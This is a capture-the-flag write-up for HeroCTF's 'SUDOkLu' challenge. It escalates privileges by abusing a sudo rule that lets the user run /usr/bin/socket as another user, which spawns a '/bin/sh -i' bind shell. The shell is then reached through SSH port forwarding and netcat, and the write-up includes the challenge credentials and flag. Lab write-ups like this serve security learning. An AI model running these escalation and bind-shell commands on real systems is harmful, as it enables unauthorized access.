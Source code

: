 # SUDOkLu
Category: System

## Description
This is a warmup to get you going. Your task is to read `/home/privilegeduser/flag.txt`. For our new commers, the title might steer you in the right direction ;). Good luck!

Credentials: `user:password123`

\> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**

Author : **Log_s**

## Write-up
- Upon accessing the remote server using SSH (`ssh user@dyn-01.heroctf.fr -p 10287`), we attempted to view the permissions of the directory `/home/privilegeduser/` and the flag file `/home/privilegeduser/flag.txt`. Unfortunately, we encountered insufficient permissions and couldn't access them.
- Considering the challenge's name suggested the use of the `sudo` utility, we decided to check our current user's privileges using the `sudo -l` command.
```
Matching Defaults entries for user on sudoklu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User user may run the following commands on sudoklu:
    (privilegeduser) NOPASSWD: /usr/bin/socket
```
- It appeared that our user could execute the `socket` utility as `privilegeduser` through `sudo` without requiring a password.
- Referring to [GTFOBins](https://gtfobins.github.io/gtfobins/socket/), we discovered that we could create a bind shell using the `socket` command. This meant we could create a bind shell by utilizing `privilegeduser` with `sudo` without requiring password.
- The command to create the listener that would spawn a shell is: `sudo -u privilegeduser /usr/bin/socket -svp '/bin/sh -i' 13337`.
- We opened a second terminal to forward local traffic from port `12345` to the server's port `13337` using the command: `ssh -L 12345:127.0.0.1:13337 user@dyn-01.heroctf.fr -p 10287`.
- With the local port forwarding established, we could interact with the server's port `13337` through our local port `12345` by opening a third terminal and running: `nc localhost 12345`.
- By executing these steps, we successfully created a bind shell and established a connection to it. We obtained the flag within the bind shell.

![](solution/image.png)

Flag: `Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}`
